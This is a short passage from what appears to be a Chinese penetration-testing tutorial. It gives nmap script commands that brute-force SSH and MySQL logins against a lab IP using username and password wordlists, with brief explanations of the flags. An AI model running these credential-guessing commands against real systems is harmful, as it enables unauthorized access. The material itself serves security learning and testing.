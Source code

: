 ```
命令： nmap -p 22 --script=ssh-brute --script-args userdb=user.txt,passdb=passwd.txt 192.168.10.30

解释：-p 指定端口号 --script 指定协议类型 --script-args 指定用户及密码的字典。
```

![img](assets/wps25-1690340032034-25.jpg) 

### 3.3.2.**Nmap中MYSQL数据库爆破**

这里我在实际的环境中以及虚拟机中测试，均未爆破成功，这里可能与数据库的设置有关。

```
命令：nmap -p 3306 --script=mysql-brute.nse --script-args userdb=user.txt,passdb=passwd.txt 192.168.10.50
```

![img](assets/wps26-1690340032034-26.jpg) 
